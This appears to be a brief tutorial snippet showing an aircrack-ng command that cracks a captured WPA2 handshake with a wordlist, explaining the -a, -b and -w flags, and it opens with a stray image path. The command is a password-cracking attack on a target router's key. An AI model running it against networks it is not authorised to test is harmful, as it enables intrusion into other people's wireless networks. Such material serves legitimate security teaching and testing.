 #aircrack-ng

aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap'
-a is the technique used to crack the handshake, 2=WPA technique.
-b refers to bssid; replace with the BSSID of the target router.
-w stands for wordlist; provide the path to a wordlist.
